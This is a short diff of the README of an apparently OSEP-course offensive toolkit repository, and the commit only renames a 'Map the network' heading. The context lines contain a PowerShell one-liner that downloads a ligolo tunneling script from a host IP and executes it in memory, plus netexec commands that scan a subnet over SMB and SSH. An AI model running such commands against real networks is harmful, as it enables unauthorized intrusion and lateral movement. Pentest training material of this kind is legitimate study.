

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, the part around the change. GitHub-like rendering.

```diff
--- a/README.md
+++ b/README.md
@@ -1,7 +1,7 @@
 Just a bunch of tools built/gathered along the OSEP course.
 
 1. [Tunneling](#Tunneling)
-2. [Map the network (using netexec)](#Map the network (using netexec))
+2. [Map the network](#Map the network)
 
 
 
@@ -16,7 +16,7 @@ Make sure you are running as x64 bit process before running:
 Invoke it: `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`
 
 
-# Map the network (using netexec)
+# Map the network
 - `nxc smb 172.16.125.0/24 --log hosts.txt` (for windows hosts)
 
 - `nxc ssh 172.16.125.0/24 --log hosts.txt` (for linux hosts)
```
